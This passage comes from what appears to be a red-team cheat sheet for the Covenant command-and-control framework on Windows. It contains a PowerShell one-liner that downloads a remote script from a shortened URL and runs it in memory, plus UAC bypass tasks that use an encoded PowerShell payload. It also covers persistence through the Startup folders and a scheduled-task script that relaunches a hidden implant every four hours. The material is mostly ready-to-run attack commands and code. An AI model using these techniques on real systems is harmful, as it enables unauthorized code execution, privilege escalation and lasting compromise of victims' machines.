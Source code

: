 If you want to invoke everything without touching disk, use something like this:

```py
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mK64oH’); Invoke-AllChecks”
```

#### UAC Bypasses

Covenant has `BypassUACCommand` and `BypassUACGrunt` Tasks which can be used 

```cpp
SharpShell /code:"var startInfo = new System.Diagnostics.ProcessStartInfo { FileName = @\"C:\Windows\System32\Taskmgr.exe\", WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden }; var taskmgr = new System.Diagnostics.Process { StartInfo = startInfo }; taskmgr.Start(); return taskmgr.Id.ToString();"

BypassUACCommand cmd.exe "/c powershell -enc [...snip...]"
```

## 7) Persistence

### Classic Startup folder

Just drop a binary in current user folder, will trigger when current user signs in:

```py
"C:\Users\[USERNAME]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
```
Or in the startup folder, requires administrative privileges but will trigger as SYSTEM on boot and when any user signs on:

```py
"C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

### Schedule Tasks

This PowerShell script will execute a new Grunt (using our existing PowerShell payload) every 4 hours for up to 30 days. If you omit the RepetitionDuration option in the trigger, it will repeat indefinitely.

```powershell
function New-ScheduledTaskPersistence {

    $name = "Persistence"
  
    $trigger = New-ScheduledTaskTrigger `
        -Once `
        -At 11am `
        -RepetitionInterval (New-TimeSpan -Hours 4) `
        -RepetitionDuration (New-TimeSpan -Days 30)
  
      $action = New-ScheduledTaskAction `
        -Execute "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" `
        -Argument "-Sta -Nop -Window Hidden -EncodedCommand " `
        -WorkingDirectory "C:\Windows\System32"
  
      Register-ScheduledTask `
        -TaskName $name `
        -Trigger $trigger `
        -Action $action `
        -Force
}
```
To execute this PowerShell script on the target, go to the Interact CLI, import and execute the powershell module 
